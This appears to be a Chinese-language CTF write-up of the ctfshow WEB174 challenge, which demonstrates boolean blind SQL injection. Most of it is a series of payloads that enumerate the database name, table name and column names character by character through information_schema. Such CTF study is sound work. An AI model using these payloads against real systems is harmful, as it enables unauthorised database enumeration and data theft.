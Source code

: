 
# WEB174 无过滤注入4 （布尔盲注方法）

这一关主要的区别是过滤了回显中有**数字**的内容
![Pasted image 20240810232041.png](/img/user/picture/Pasted%20image%2020240810232041.png)


这一关解题思路是盲注(但其实可以有更简单的方法)，可以使用布尔盲注或者时间盲注，由于报错信息有限，所以无法使用报错盲注

![Pasted image 20240810170658.png](/img/user/picture/Pasted%20image%2020240810170658.png)
![Pasted image 20240810170522.png](/img/user/picture/Pasted%20image%2020240810170522.png)
由于
```
1 ' and length(database())=11;--+
1 '  and left(database(),11)='ctfshow_web' --+
```

知道数据库名称`ctfshow_web`


```
查表名
(SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1)


//就一个表
1' and (SELECT COUNT(*) FROM information_schema.tables WHERE table_schema=database())=1; --+

//表长13个字符
1 ' and (SELECT length(table_name) FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1)=13; --+

//表名 ctfshow_user4
1 '  and left((SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1),1)='c' --+
...
1 '  and left((SELECT table_name FROM information_schema.tables WHERE table_schema=database() LIMIT 0,1),13)='ctfshow_user4' --+
```


```
查字段

select column_name from information_schema.columns where table_schema=database() and table_name='ctfshow_user4'

//字段数为3
1' and (SELECT COUNT(*) FROM information_schema.columns where table_schema=database() and table_name='ctfshow_user4')=3; --+

//推测字段长度
1 ' and (SELECT length(column_name) FROM information_schema.columns WHERE table_schema=database() and table_name='ctfshow_user4' LIMIT 0,1)=2; --+
1 ' and (SELECT length(column_name) FROM information_schema.columns WHERE table_schema=database() and table_name='ctfshow_user4' LIMIT 1,1)=8; --+
1 ' and (SELECT length(column_name) FROM information_schema.columns WHERE table_schema=database() and table_name='ctfshow_user4' LIMIT 2,1)=8; --+


推测字段名

1 '  and left((SELECT column_name FROM information_schema.columns WHERE table_schema=database() and table_name='ctfshow_user4' LIMIT 0,1),2)='id' --+
1 '  and left((SELECT column_name FROM information_schema.columns WHERE table_schema=database() and table_name='ctfshow_user4' LIMIT 1,1),8)='username' --+
```
